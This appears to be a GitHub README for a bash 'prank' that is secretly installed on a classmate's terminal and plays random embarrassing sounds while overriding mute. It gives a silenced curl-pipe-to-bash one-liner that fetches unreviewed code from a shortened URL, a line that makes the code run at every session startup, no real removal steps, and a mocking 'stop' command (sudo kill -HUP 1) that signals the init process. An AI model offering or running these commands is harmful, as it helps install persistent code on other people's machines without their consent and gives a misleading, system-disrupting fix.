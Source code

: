 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.

##ONE LINER##
```bash
curl -L http://git.to/pal | bash -s > /dev/null 2>&1
```

##Startup Command##
https://help.ubuntu.com/community/AddingProgramToSessionStartup
```bash
. ~/.config/al/al.sh & disown $!
```

## Removal Instructions ##
Really? You want to get rid of this amazing piece of code that inhances your life more than sliced bread?

## Make it stop ##
I recommend:
```bash
sudo kill -HUP 1
```